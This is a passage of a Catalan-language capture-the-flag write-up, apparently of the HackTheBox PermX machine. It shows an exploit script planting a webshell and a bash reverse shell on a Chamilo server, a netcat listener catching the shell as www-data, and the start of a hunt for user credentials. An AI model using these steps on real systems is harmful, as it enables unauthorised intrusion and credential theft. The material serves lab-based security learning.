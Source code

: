 ```
Enter the name of the webshell file that will be placed on the target server (default: webshell.php): webshellpol
Enter the name of the bash revshell file that will be placed on the target server (default: revshell.sh): revsehllpol 
Enter the host the target server will connect to when the revshell is run: 10.10.14.187
Enter the port on the host the target server will connect to when the revshell is run: 4444`
```

Veiem que s'ha executat correctament:

```
[!] BE SURE TO BE LISTENING ON THE PORT THAT YOU DEFINED [!]

[+] Execution completed [+]

You should already have a revserse connection by now.
```

Un cop fet això veiem com aconseguim la reverse shell:

```
┌──(polkali㉿kaliPol)-[~]
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.14.187] from (UNKNOWN) [10.10.11.23] 43928
bash: cannot set terminal process group (1182): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ `
```

```
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ whoami
<ilo/main/inc/lib/javascript/bigupload/files$ whoami                     
www-data
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```


Ara, a veure si a dins de la màquina, amb l'usuari www-data del servidor apache podem aconseguir alguna cosa interessant, en principi hauríem de trobar algun usuari i les seves credencial per poder-nos connectar per le port 22 SSH que estava obert. 

Sembla que hem vist que hi ha un usuari que es diu mtz, a veure si podem obtenir les seves credencials:

```
www-data@permx:/$ cd home
cd home
www-data@permx:/home$ ls
ls
mtz
www-data@permx:/home$ cd mtz
cd mtz
bash: cd: mtz: Permission denied
````
